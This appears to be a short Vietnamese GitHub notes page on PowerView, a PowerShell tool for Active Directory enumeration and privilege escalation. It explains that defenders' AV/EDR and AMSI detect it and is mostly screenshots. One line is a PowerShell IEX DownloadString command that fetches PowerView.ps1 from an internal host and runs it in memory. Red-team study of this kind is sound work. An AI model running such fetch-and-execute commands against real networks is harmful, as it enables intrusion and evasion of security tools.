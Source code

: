 ### PowerView là một công cụ PowerShell được sử dụng để liệt kê Active Directory và leo thang đặc quyền trong môi trường Windows. Công cụ này được các chuyên gia kiểm tra xâm nhập và Red Team sử dụng rộng rãi để xác định độ tin cậy của tên miền, quyền người dùng và các cấu hình sai có thể bị lợi dụng cho các cuộc tấn công.

<img width="597" height="777" alt="image" src="https://github.com/user-attachments/assets/eaecefaa-57ce-4701-8536-9009071bca57" />

=> Đúng — PowerView là một trong những công cụ bị attacker (red team / adversary) dùng rất nhiều để thu thập thông tin trong Active Directory (enum users, groups, computers, ACLs, trusts, local admins, v.v.). Vì thế các AV/EDR phổ biến (kể cả Windows Defender qua AMSI) đã học cách phát hiện và chặn các phiên bản PowerView công khai.

<img width="605" height="916" alt="image" src="https://github.com/user-attachments/assets/6973cd16-4664-4af8-bb94-1700f5471425" />

```
IEX (New-Object Net.WebClient).DownloadString('[http://192.168.100.150/PowerView.ps1')
```

<img width="612" height="807" alt="image" src="https://github.com/user-attachments/assets/5f31fc59-298d-4f97-8611-5177afbbc46f" />

<img width="607" height="939" alt="image" src="https://github.com/user-attachments/assets/9a60cf2e-b819-43e2-ab70-5f400c2a2c57" />

<img width="590" height="892" alt="image" src="https://github.com/user-attachments/assets/1623fac1-7dc2-4de6-98e1-198c1d59e9ec" />

<img width="589" height="866" alt="image" src="https://github.com/user-attachments/assets/81518319-3778-43db-a533-a4f94c4feae7" />

<img width="597" height="868" alt="image" src="https://github.com/user-attachments/assets/9d4b4b39-fc6b-4a82-b635-60c132aa08e3" />

<img width="600" height="809" alt="image" src="https://github.com/user-attachments/assets/25f1b579-35e3-4db2-a744-082f8e791799" />

<img width="599" height="855" alt="image" src="https://github.com/user-attachments/assets/a02017a0-8b18-4f99-9efd-5f4728d1cf85" />

<img width="594" height="581" alt="image" src="https://github.com/user-attachments/assets/face1ea9-7dd8-4ef7-a57c-586b48b06aaa" />
